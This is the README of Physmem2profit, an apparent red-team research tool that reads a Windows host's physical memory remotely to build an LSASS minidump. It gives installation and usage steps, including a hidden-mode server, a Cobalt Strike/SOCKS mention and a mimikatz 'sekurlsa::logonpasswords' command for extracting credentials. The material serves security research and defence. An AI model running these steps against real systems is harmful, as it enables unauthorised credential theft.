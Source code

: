 # Physmem2profit

Physmem2profit can be used to create a minidump of a target host's LSASS process by analysing physical memory remotely. The intention of this research is to propose an alternative approach to credential theft and create a modular framework that can be extended to support other drivers that can access physical memory. Physmem2profit generates a minidump (.dmp) of LSASS that can be further analyzed with Mimikatz. The tool does not require Cobalt Strike but should work fine over beacon with a SOCKS proxy.

The idea is illustrated below:

![Overview of Physmem2profit](docs/physmemlayout.png)

The tool has two components:

1. The C# server component, `physmem2profit.exe`, executed on the target host
    * Loads the Winpmem driver and acts as a server, which exposes the physical RAM of the target host through a TCP port
1. The client, `physmem2profit` Python module, executed on the attacking machine
    * When executed with `--mode mount`, connects to the target machine and mounts the physical RAM of the target as a raw file with the help of [FUSE](https://en.wikipedia.org/wiki/Filesystem_in_Userspace)
    * When executed with `--mode dump`, calls various [Rekall](https://github.com/google/rekall) plugins to analyze the memory image and to generate a minidump of the LSASS process.
    * When executed with `--mode all`, performs both of the above actions. Connection with server will be closed when dump is complete.

## Installation Instructions

1. Clone the Physmem2profit Git repository: `git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git`
1. For the server running on the target computer:
    1. Build `physmem2profit/server/Physmem2profit.sln` with Visual Studio
1. For the client running on the attacking machine:
    1. `bash physmem2profit/client/install.sh`

## Usage

1. Run `physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]` on the target as admin.
    * You can download the signed Winpmem driver [here](https://github.com/Velocidex/c-aff4/raw/master/tools/pmem/resources/winpmem/att_winpmem_64.sys). This driver needs to be present on the target host.
1. Run `source physmem2profit/client/.env/bin/activate` on the attacking machine. This command will activate the virtualenv created by `install.sh`.
1. Run `cd physmem2profit/client` and ```python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]``` on the attacking machine
    * `physmem2profit.exe` needs to be running on the target machine before you run this command.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp` on the attacking machine.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

## More Information
[Rethinking Credential Theft](https://labs.f-secure.com/blog/rethinking-credential-theft/) | a blog post explaining why this approach to credential theft was chosen.

Physmem2profit is developed by [b3arr0](https://twitter.com/b3arr0) and [@TimoHirvonen](https://twitter.com/TimoHirvonen).

Kudos for contributing:
* Janusz Szmigielski for refactoring the code for the first release
* Pawel Kurowski for refactoring the code for the first release
* Grzegorz Rychlik for refactoring the code for the first release
